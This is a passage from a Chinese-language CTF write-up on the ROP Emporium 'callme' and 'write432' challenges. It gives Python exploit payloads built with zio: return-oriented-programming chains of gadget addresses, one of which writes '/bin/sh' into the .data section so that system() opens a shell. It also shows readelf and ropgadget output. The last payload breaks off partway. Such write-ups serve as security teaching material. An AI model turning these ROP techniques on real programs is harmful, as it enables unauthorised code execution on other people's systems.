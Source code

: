 payload 如下：
```python
from zio import *

payload  = "A"*40

payload += l64(0x00401ab0)
payload += l64(0x1) + l64(0x2) + l64(0x3)
payload += l64(0x00401850)

payload += l64(0x00401ab0)
payload += l64(0x1) + l64(0x2) + l64(0x3)
payload += l64(0x00401870)

payload += l64(0x00401ab0)
payload += l64(0x1) + l64(0x2) + l64(0x3)
payload += l64(0x00401810)

io = zio('./callme')
io.writeline(payload)
io.read()
```

#### write432
这一次，我们已经不能在程序中找到可以执行的语句了，但我们可以利用 gadgets 将 `/bin/sh` 写入到目标进程的虚拟内存空间中，如 `.data` 段中，再调用 system() 执行它，从而拿到 shell。要认识到一个重要的点是，ROP 只是一种任意代码执行的形式，只要我们有创意，就可以利用它来执行诸如内存读写等操作。

这种方法虽然好用，但还是要考虑我们写入地址的读写和执行权限，以及它能提供的空间是多少，我们写入的内容是否会影响到程序执行等问题。如我们接下来想把字符串写入 `.data` 段，我们看一下它的权限和大小等信息：
```
$ readelf -S write432
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  ...
  [16] .rodata           PROGBITS        080486f8 0006f8 000064 00   A  0   0  4
  [25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
```
可以看到 `.data` 具有 `WA`，即写入（write）和分配（alloc）的权利，而 `.rodata` 就不能写入。

使用工具 ropgadget 可以很方便地找到我们需要的 gadgets：
```
$ ropgadget --binary write432 --only "mov|pop|ret"
...
0x08048670 : mov dword ptr [edi], ebp ; ret
0x080486da : pop edi ; pop ebp ; ret
```

另外需要注意的是，我们这里是 32 位程序，每次只能写入 4 个字节，所以要分成两次写入，还得注意字符对齐，有没有截断字符（`\x00`,`\x0a`等）之类的问题，比如这里 `/bin/sh` 只有七个字节，我们可以使用 `/bin/sh\00` 或者 `/bin//sh`，构造 payload 如下：
```python
from zio import *

pop_edi_ebp = 0x080486da
mov_edi_ebp = 0x08048670

data_addr   = 0x804a028
system_plt  = 0x8048430

payload  = ""
payload += "A"*44
payload += l32(pop_edi_ebp)
payload += l32(data_addr)
payload += "/bin"
payload += l32(mov_edi_ebp)
payload += l32(pop_edi_ebp)
payload += l32(data_addr+4)
payload += "/sh\x00"
```